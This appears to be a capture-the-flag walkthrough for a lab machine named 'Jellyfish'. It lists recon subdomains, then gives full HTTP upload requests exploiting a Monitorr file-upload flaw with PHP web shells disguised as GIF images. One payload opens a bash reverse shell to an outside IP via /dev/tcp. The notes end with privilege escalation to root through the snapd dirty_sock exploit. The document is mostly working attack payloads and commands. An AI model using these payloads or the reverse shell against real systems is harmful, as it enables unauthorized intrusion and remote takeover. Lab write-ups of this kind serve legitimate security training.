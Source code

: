 # Jellyfish

## Reconn


robyns-petshop.thm
monitorr.robyns-petshop.thm
beta.robyns-petshop.thm
dev.robyns-petshop.thm


Looking for searchsploit Monitor 1.7.6 found exploit
https://www.exploit-db.com/exploits/48980

## Payloads

POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php system($_GET["c"]);?>
-----------------------------31046105003900160576454225745--




POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 274

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=she_ll5.gif.phtml
Content-Type: image/gif

GIF89a213213123<?php
{php-reverse-shell.php pentestmonkey}
?> 
-----------------------------31046105003900160576454225745--



view-source:https://monitorr.robyns-petshop.thm/assets/data/usrimg/she_ll5.gif.phtml?c=ls%20-al%20/opt/ssh-honeypot

cat /opt/ssh-honeypot/README.md


# FINAL PAYLOAD 

POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Cookie: isHuman=1; PHPSESSID=98ke6a48lckc25sb87jmru2el7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------31046105003900160576454225745
Origin: https://monitorr.robyns-petshop.thm
Connection: close
Referer: https://monitorr.robyns-petshop.thm
Content-Length: 320

-----------------------------31046105003900160576454225745
Content-Disposition: form-data; name=fileToUpload; filename=reverse.gif.pHp
Content-Type: image/gif

GIF89a213213123


<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.124/443 0>&1'");?> 
-----------------------------31046105003900160576454225745--


# First Access

after running Linpeas.sh in SGID section found snapd with suid
check verson snapd
: snapd --version
2.32.5

: searchsploit snapd 2.32.5
found CVE 2019-7304 
dirty_sock.py

upload exploit on target

running dirty_sock
******
user:dirty_sock
pass:dirty_sock
******

: su dirty_sock
: sudo su

root#>
